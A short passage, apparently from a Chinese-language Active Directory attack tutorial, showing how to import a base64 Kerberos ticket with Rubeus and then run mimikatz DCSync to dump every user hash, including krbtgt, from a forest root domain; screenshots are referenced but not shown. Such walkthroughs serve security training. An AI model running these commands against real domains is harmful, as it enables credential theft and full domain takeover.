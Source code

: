 然后我们可以直接使用 Rubeus 执行如下命令导入这个 base64 的 TGT 认购权证，就可以使用 mimikatz 导出林根域的所有用户 hash 了。

```
Rubeus.exe ptt /ticket:base64 格式的票据
mimikatz.exe "lsadump::dcsync /domain:xie.com /user:xie\krbtgt /csv" "exit"
```

![截图](8b662eb8e4c1c42068597974b07e375b.png)

![截图](61e87ca924f994ea9deea07569566c43.png)
